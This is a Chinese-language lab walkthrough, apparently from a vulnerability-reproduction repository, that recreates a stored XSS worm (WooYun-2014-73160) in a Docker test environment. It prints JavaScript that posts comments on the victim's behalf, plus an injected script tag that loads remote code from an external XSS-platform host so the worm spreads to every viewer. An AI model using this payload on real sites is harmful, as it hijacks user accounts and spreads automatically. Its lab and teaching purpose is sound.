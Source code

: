 

## 漏洞出处

WooYun-2014-73160

原知道创宇同事，现安途信息CEO，Ox_jin发现的万达电商平台严重的XSS蠕虫漏洞。


## 复现漏洞

运行测试环境：

`此环境需要公网可达环境，推荐在公有云平台上运行此事例`


```bash
docker-compose up -d
```

访问`http://your-ip:8000/`，

登录页面，输入用户名密码：

本事例中有三个用户名与密码，分别如下

```
用户名：密码
user1：user1
user2：user2
user3：user3
```

首先在任意公网环境XSS平台构造一个XmlRequest的对象,以POST形式发送到评论接口页面。下列代码中需要修改url中的IP参数与senddata的值。



```javascript
var url="http://yourip:8000/commit";

var sendata = "commit=ssy是大帅哥";

if (window.XMLHttpRequest){

var xmlhttp1=new XMLHttpRequest();

}

else{

var xmlhttp1=new ActiveXObject("Microsoft.XMLHTTP");

}

xmlhttp1.open("POST",url,true);

xmlhttp1.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

xmlhttp1.send(sendata); 
```


xss平台生成远程JS文件链接地址：`<sCRiPt/SrC=//xss.fbisb.com/xxxx>`
![](01.png)


在评论页面处插入XSS代码：
`<sCRiPt/SrC=//xss.fbisb.com/2h62></script>`

![](02.png)

任意用户登录页面会跨域调用恶意代码，发送评论`ssy是大帅哥`

![](03.png)

